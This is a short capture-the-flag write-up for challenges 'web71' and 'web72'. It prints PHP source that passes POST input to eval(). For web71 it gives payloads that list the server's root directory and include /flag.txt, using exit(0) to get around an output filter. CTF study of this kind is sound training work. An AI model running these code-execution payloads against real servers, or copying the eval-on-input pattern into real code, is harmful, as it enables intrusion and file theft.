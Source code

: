 
#### web71

```php
<?php

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```

**payload**

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);
c=include("/flag.txt");exit(0);
```

---

#### web72

```php
<?php

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```
